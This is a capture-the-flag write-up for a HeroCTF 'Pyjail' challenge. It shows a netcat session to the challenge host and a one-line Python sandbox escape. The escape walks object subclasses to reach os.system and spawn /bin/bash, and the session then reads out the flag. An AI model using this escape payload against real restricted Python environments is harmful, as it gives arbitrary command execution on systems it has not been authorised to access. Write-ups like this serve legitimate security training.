

# Pyjail



Note: the `jail.py` source has been added to this folder but was not given prior to starting the challenge.

Simple Pyjail challenge.

Upon initially starting the challenge, it looks like more or less every builtin function has been removed.

We can check out what we have access to:

```
┌──(natem135㉿LAPTOP-9JJQBT3F)-[~]
└─$ nc dyn-02.heroctf.fr 14914
>> print(__builtins__)
{'print': <built-in function print>, 'globals': <built-in function globals>}
>> print(globals())
{'__builtins__': {'print': <built-in function print>, 'globals': <built-in function globals>}}
>>
```

Alright, we don't have access to much, although there appear to be no more arbitrary restrictions making this is a very generic pyjail challenge.

I can use a list `[]`, access the base object class, get its subclasses, find a reference to the os module, and access functions from within the system module using the following line:

`[].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')`

This allows me to get the flag:

```
┌──(natem135㉿LAPTOP-9JJQBT3F)-[~]
└─$ nc dyn-02.heroctf.fr 14914
>> [].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')
grep -r "Her"
pyjail.py:# FLAG : Hero{nooooo_y0u_3sc4p3d!!}
ls
entry.sh
pyjail.py
```

Flag: `Hero{nooooo_y0u_3sc4p3d!!}`
